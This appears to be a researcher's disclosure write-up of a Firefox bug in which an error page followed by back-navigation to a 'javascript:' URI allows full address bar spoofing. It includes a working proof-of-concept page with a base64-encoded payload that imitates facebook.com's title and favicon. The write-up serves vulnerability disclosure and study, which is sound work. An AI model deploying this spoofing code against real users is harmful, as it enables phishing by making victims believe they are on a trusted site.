

After finding the bug which results in hiding the address bar using the Javascript URI scheme described here I was able to stumble upon another bug which enabled full address bar spoofing!
The inspiration came from a comment on the bugzilla report made by Boris Zbarsky for the previous bug which resulted in hiding the address bar. He mentioned that some sort of mechanism was present
which prevented javascript to be executed when hitting the back/forward button on the browser.
I believe there used to be an older bug which relied on the user to navigate from say 'http://trusted.ltd' to 'javascript:alert(document.domain)' it will not execute the javascript.
However, I managed to circumvent this fix to an older bug by having the user instead of going to a normal 'http://trusted.ltd' website the user would instead go to an invalid one, we do this by inserting an invalid char at the end of the address.
For example, going to 'http://facebook.com;' (notice the semicolon) will result in a 'Server not found' error page, that looks like this:

The downside of this type of bug is that I don't actually get any information from the spoofed domain, this is purely to trick the victim into assuming they are in a trusted domain.
Now if we go to an error page and navigate back to a 'javascript:' URI scheme, the existing security measures that usually would prevent javacript execution are bypassed and we are able to
spoof any URL with a resulting error page.
The only time we could spoof a domain char per char without adding invalid char is if the domain does not implement a valid cert, or if the targeted domain does not have https capabilities but we have the user go to an https url.
Here is the original proof of concept code reported to Mozilla.
<html> <head> <title>FF-FULL-URL-Spoof - @qab</title> </head> <body> <a id='q' href='https://qabandi.com'>Click here then navigate back</a> <script> var payload='PGI+QHFhYjwvYj48aW1nIGlkPSdxYWInLz4KPHNjcmlwdD4KKGZ1bmN0aW9uKCkgey8vVGhpcyBpcyB0byBzZXQgdGhlIGZhdmljb24KICAgIHZhciBxID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnbGluaycpOwogICAgcS50eXBlID0gJ2ltYWdlL3gtaWNvbic7CiAgICBxLnJlbCA9ICdzaG9ydGN1dCBpY29uJzsKICAgIHEuaHJlZiA9ICdodHRwczovL3d3dy5mYWNlYm9vay5jb20vZmF2aWNvbi5pY28nOwogICAgZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoJ2hlYWQnKVswXS5hcHBlbmRDaGlsZChxKTsKfSgpKTsKCndpbmRvdy5kb2N1bWVudC50aXRsZT0naHR0cHM6Ly93d3cuZmFjZWJvb2suY29tJzt3aW5kb3cuc3RvcCgpOwpxYWIuc3JjPSdodHRwOi8vaS5pbWd1ci5jb20vbmFmMmpHWi5qcGcnOwo8L3NjcmlwdD4='; q.addEventListener("click",$=>{q.href="javascript:try{q;'<script>location.reload()<\/script>'}catch(e){if(location.toString().contains('http')){document.write(atob('"+payload+"'));1;}else{location='https://qabandi.com';}}";});//We replace the href right before the user clicks it. </script> </body> </html>
'http://facebook.com;' (note the semicolon again), despite the URL address displaying the invalid link, you're not actually on that URL in the back end. (not as far as the documents concerned)'document.documentURI' which in this case equals'about:neterror?e=dnsNotFound&u=http%3A//www.facebook.com%3B/&c=UTF-8&f=regular&d=Firefox%20can%27t%20find%20the%20server%20at%20www.facebook.com%3B.'
I believe this is how it was possible to bypass the existing security, as the security measures only took into account http/s urls and not about: urls.